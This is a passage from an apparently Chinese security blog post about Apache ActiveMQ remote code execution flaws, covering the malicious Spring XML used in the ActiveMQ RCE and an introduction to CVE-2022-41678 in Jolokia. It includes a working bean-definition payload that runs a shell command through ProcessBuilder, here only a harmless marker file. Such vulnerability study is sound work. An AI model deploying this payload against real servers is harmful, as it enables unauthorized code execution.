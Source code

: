 通过引入恶意的 xml 来执行代码

```bash
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
       http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>touch</value>
                <value>/tmp/activeMQ-RCE-success</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

这个 xml 执行了 touch /tmp/activeMQ-RCE-success命令，具体复现参考vulhub

## CVE-2022-41678

Apache ActiveMQ 在 5.16.5, 5.17.3 版本及以前，后台 Jolokia 存在一处任意文件写入导致的远程代码执行漏洞。

### Jolokia

`Jolokia` 是一个简单但功能强大的远程 `JMX`（Java Management Extensions）代理，它提供了一种通过 `HTTP/JSON` 接口来访问 `JMX bean` 的方法。它主要用于远程管理和监控 Java 应用程序。Jolokia 通过提供一个 `HTTP API` 来访问 `JMX MBeans`，使得在不同平台和语言之间进行交互变得更加容易，特别是在 Web 应用程序和现代监控工具中。

有一些常见的使用 Jolokia 的应用：

-   **Spring Boot**：Spring Boot 应用可以通过 Jolokia 获取 JMX 数据，特别是当应用部署在容器化环境中时，Jolokia 提供了一种便捷的方式来暴露应用的 JMX 数据。
    
-   **Apache Camel**：Apache Camel 是一个集成框架，它提供了 Jolokia 的支持来监控和管理 Camel 路由。
    
-   **Kubernetes**：在 Kubernetes 环境中，Jolokia 可以用于从 Java 应用收集指标并将其暴露给集群的监控系统，如 Prometheus。
    
-   **ActiveMQ**：Apache ActiveMQ 是一个消息代理，它支持通过 Jolokia 访问其 JMX 指标，方便监控和管理消息队列的状态。
    
-   **Elasticsearch**：虽然 Elasticsearch 主要是用 Java 编写的，但它也可以通过 Jolokia 集成到更广泛的监控解决方案中，以便监控其 JVM 性能和其他运行时指标。
    

Jolokia 在不同的应用中也导致过一些不同的漏洞，笔者记得当初玩 edusrc 的时候，第一个高危漏洞就是 Sprint-boot 中由 Jolokia 导致的 XXE 漏洞

[![](assets/1708677570-0f9a07d5bdfc2b7cb7b0fb6bcc1fd2b9.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221152659065.png)

[https://www.hacking8.com/bug-product/Spring-Boot/Spring-Boot-Actuator-jolokia-%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4%E7%9A%84XXE%E6%BC%8F%E6%B4%9E.html](https://www.hacking8.com/bug-product/Spring-Boot/Spring-Boot-Actuator-jolokia-%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4%E7%9A%84XXE%E6%BC%8F%E6%B4%9E.html)
